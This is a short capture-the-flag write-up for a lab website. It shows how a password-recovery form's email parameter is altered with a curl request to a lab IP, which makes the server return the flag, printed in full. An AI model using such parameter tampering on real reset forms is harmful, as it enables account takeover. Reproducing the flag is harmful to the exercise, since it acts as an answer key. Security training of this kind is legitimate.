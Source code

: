 There is a sign in page in the site that has a recover page.

It just have a button for submiting the form.

If we look at the request sent, it has this content for body :

mail=webmaster%40borntosec.com&Submit=Submit

This data is sent with the HTTP header :

Content-Type: application/x-www-form-urlencoded

With cURL, we can resend the request but change the email.

curl --location 'http://172.16.91.134/?page=recover' \
--header 'Content-Type: application/x-www-form-urlencoded' \
--data-urlencode 'mail=wil@borntosec.comd' \
--data-urlencode 'Submit=Submit'

As you can see here, i changed a bit the email address. If i send this request, i can find this part in the response :

```
<section id="main" class="wrapper">
				<div class="container" style="margin-top:75px">
<center><h2 style="margin-top:50px;"> The flag is : 1d4855f7337c0c14b6f44946872c4eb33853f40b2d54393fbe94f49f1e19bbb0</h2><br/><img src="images/win.png" alt="" width=200px height=200px></center>
```

So we got the flag : 1d4855f7337c0c14b6f44946872c4eb33853f40b2d54393fbe94f49f1e19bbb0

